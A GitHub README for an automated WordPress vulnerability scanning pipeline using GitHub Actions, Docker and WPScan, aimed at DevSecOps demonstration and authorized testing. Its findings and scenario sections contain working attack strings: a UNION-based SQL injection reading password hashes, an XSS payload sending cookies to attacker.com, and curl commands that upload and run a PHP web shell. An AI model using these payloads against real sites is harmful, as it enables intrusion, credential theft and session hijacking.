

# 🛡️ WordPress Security Scanner - Automated Vulnerability Assessment

[](https://github.com/yourusername/wordpress-security-scanner/actions/workflows/wordpress-security.yml)

An enterprise-grade automated security scanning pipeline for WordPress applications using GitHub Actions, Docker containerization, and WPScan security testing tools.

## 🎯 Project Objectives

This project demonstrates advanced DevSecOps practices by:
- **Automating security assessments** across multiple WordPress configurations
- **Container-based isolation** for safe vulnerability testing
- **Comprehensive reporting** with actionable remediation guidance
- **CI/CD integration** for continuous security monitoring

## 🏗️ Architecture Overview



## 🔧 Technology Stack

- **Orchestration**: GitHub Actions with matrix strategy
- **Containerization**: Docker & Docker Compose
- **Security Testing**: WPScan with API integration
- **Target Application**: WordPress (multiple versions)
- **Database**: MySQL 8.0
- **Reporting**: JSON/Markdown with artifact storage

## 🚀 Quick Start

### 1. Repository Setup
```bash
git clone https://github.com/yourusername/wordpress-security-scanner.git
cd wordpress-security-scanner
```

### 2. Configure GitHub Secrets
Navigate to `Settings → Secrets and Variables → Actions` and add:

| Secret Name | Example Value | Purpose |
|-------------|---------------|---------|
| `Your_Name_DB_USER` | `wp_secure_user` | WordPress database user |
| `Your_Name_DB_PASS` | `SecurePass123!` | Database password |
| `Your_Name_DB_NAME` | `wordpress_security` | Database name |
| `Your_Name_ROOT_PASS` | `RootPass456!` | MySQL root password |
| `Your_Name_WPSCAN_API_TOKEN` | `[WPScan API Token]` | Enhanced vulnerability data |

### 3. Trigger Security Scan
- **Automatic**: Push to main/develop branches
- **Scheduled**: Daily at 2 AM UTC
- **Manual**: Actions tab → "WordPress Security Scanner" → "Run workflow"

## 🔍 Scanning Capabilities

### Vulnerability Detection
- **Core WordPress**: Version-specific CVE identification
- **Plugin Analysis**: Active/passive enumeration with vulnerability lookup
- **Theme Assessment**: Security flaw detection in themes
- **Configuration Audit**: Insecure settings identification
- **Authentication Testing**: Brute force and credential analysis

### Multi-Version Testing Matrix
| WordPress Version | Themes Tested | Expected Vulnerabilities |
|-------------------|---------------|-------------------------|
| Latest | twentytwentythree | Configuration issues |
| 6.1 | twentytwentytwo | Minor security flaws |
| 6.0 | storefront | Plugin vulnerabilities |
| 5.9 | twentytwentythree | Version-specific CVEs |
| 5.8 | twentytwentytwo | Legacy security issues |

## 📊 Expected Security Findings

### Critical Vulnerabilities
1. **SQL Injection (CVE-2023-XXXX)**
   - **Location**: Plugin parameter handling
   - **Exploit**: `?id=1' UNION SELECT user_pass FROM wp_users--`
   - **Impact**: Database compromise, credential extraction

2. **Remote Code Execution**
   - **Vector**: File upload bypass in themes
   - **Exploit**: Upload PHP shell via theme editor
   - **Impact**: Full server compromise

3. **Cross-Site Scripting (XSS)**
   - **Type**: Persistent XSS in comments
   - **Payload**: `<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>`
   - **Impact**: Session hijacking, admin account takeover

### Configuration Weaknesses
- **Debug Mode Enabled**: Information disclosure
- **Default Credentials**: admin/password combinations
- **File Permissions**: World-writable configuration files
- **Version Disclosure**: WordPress version in HTTP headers

## 🛠️ Advanced Usage

### Custom Scan Parameters
```yaml
# Workflow dispatch inputs
wordpress_versions: "latest,5.8,6.0"  # Specific versions
scan_intensity: "aggressive"           # Scan depth
```

### Local Development Testing
```bash
# Run individual container for testing
docker-compose -f wordpress-configs/docker-compose.yml up -d

# Manual WPScan execution
docker run --rm --network wordpress-configs_wp-network \
  wpscanteam/wpscan --url http://wordpress:8080 --enumerate ap,at,u
```

## 📈 Reporting & Analysis

### Automated Reports Generated
- **Executive Summary**: High-level vulnerability overview
- **Technical Details**: CVE mappings, CVSS scores
- **Remediation Guide**: Step-by-step fix instructions
- **Compliance Mapping**: OWASP Top 10, NIST framework alignment

### Sample Vulnerability Report
```json
{
  "wordpress_version": "5.8",
  "vulnerabilities": [
    {
      "title": "WordPress Core < 5.8.1 - User Authenticated Stored XSS",
      "cvss": 6.4,
      "cve": "CVE-2021-39201",
      "exploitability": "High",
      "remediation": "Update to WordPress 5.8.1+"
    }
  ],
  "plugins": {
    "hello-dolly": {
      "version": "1.7.2",
      "vulnerabilities": ["Potential information disclosure"]
    }
  }
}
```

## 🔐 Security Best Practices Implemented

### Secrets Management
- All sensitive data in GitHub Secrets
- Environment variable injection
- No hardcoded credentials in code

### Container Security
- Non-root user execution
- Minimal base images
- Network isolation
- Volume encryption

### CI/CD Security
- Branch protection rules
- Required status checks
- Artifact retention policies
- Audit logging

## 🔄 Continuous Monitoring

### Scheduled Assessments
- **Daily scans** for critical environments
- **Weekly comprehensive** multi-version testing
- **Monthly trend analysis** and reporting

### Integration Points
- **SIEM Integration**: Forward findings to security platforms
- **Ticketing Systems**: Auto-create remediation tickets
- **Notification Channels**: Slack/Teams/Email alerts

## 🛡️ Exploitation Scenarios & Mitigation

### Scenario 1: Plugin Chain Attack
```bash
# 1. Discover vulnerable plugin
wpscan --url target.com --enumerate ap

# 2. Exploit plugin vulnerability
curl -X POST "target.com/wp-content/plugins/vulnerable-plugin/upload.php" \
  -F "file=@shell.php"

# 3. Execute commands
curl "target.com/wp-content/uploads/shell.php?cmd=whoami"
```

**Mitigation**: Plugin inventory management, automated updates, security policies

### Scenario 2: Configuration Exploitation
```bash
# 1. Enumerate WordPress version
curl -s target.com | grep "wp-includes" | head -1

# 2. Access debug logs
curl "target.com/wp-content/debug.log"

# 3. Extract database credentials
grep "DB_PASSWORD" debug.log
```

**Mitigation**: Disable debug mode, secure file permissions, log rotation

## 📚 Additional Resources

### Security Frameworks
- [OWASP WordPress Security Guide](https://owasp.org/www-project-wordpress-security/)
- [WordPress Hardening Documentation](https://wordpress.org/support/article/hardening-wordpress/)
- [NIST Cybersecurity Framework](https://www.nist.gov/cyberframework)

### Vulnerability Databases
- [WPScan Vulnerability Database](https://wpvulndb.com/)
- [CVE Details - WordPress](https://www.cvedetails.com/product/4096/Wordpress-Wordpress.html)
- [WordPress Security Team](https://make.wordpress.org/core/handbook/security/)

## 🤝 Contributing

1. Fork the repository
2. Create feature branch (`git checkout -b feature/security-enhancement`)
3. Commit changes (`git commit -am 'Add advanced XSS detection'`)
4. Push to branch (`git push origin feature/security-enhancement`)
5. Create Pull Request

## 📄 License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## ⚠️ Disclaimer

This tool is for educational and authorized security testing purposes only. Always ensure you have explicit permission before testing any WordPress installation. Unauthorized security testing may violate local laws and regulations.

---

**Built with ❤️ for the cybersecurity community**
